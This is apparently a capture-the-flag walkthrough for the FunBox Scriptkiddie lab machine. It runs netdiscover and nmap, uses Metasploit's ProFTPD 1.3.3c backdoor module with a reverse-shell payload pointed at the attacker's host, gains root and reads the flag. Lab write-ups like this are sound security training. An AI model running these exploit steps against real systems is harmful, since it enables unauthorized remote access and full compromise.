 # **FunBox_Scriptkiddie_Walkthrough

####This box was created by **0815R2d2

We start by running a netdiscover scan to get the IP address:

```sudo netdiscover -r <ip_address_range>```

<img src="netdiscover.png">

Then we run an nmap scan on 10.0.2.25: 

```nmap -A -v <ip_address>```

<img src="nmap.png">

Now, we see a lot of open ports here. My initial reaction was to attack the webpage, so I ran dirb and discovered the webpage was using wordpress. This prompted me run wpscan, but everything was updated and no vulnerabilities were found. I started poking around looking for known vulnerabilities on the other open ports, and I found that there was actually a metasploit module targeting the ftp service.

<img src="nmap_ftp.png">

```
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
```

<img src="metsploit_module.png">

For this module, you need to set the payload, so we use the command ```set payload cmd/unix/reverse``` and we set the options.

```
show options
set rhosts <ip_address_of_target>
set lhost <your_ip_address>
```

<img src="metaploit_module_ready">

Now we simply type ```exploit``` and **BOOM** we have a reverse shell.

<img src="reverse_shell.png">

When I get a reverse shell, I always start with ```whoami``` just see where we're at, and in this case, we're already root!

<img src="whoami.png">

Now, it's just a simple case of poking around the file system to find the flag, and in this case it's in the root directory.

```
ls -la
cd root
ls
cat root.txt
```

<img src="root_flag.png">

And that, folks, is why you always keep your services up to date.
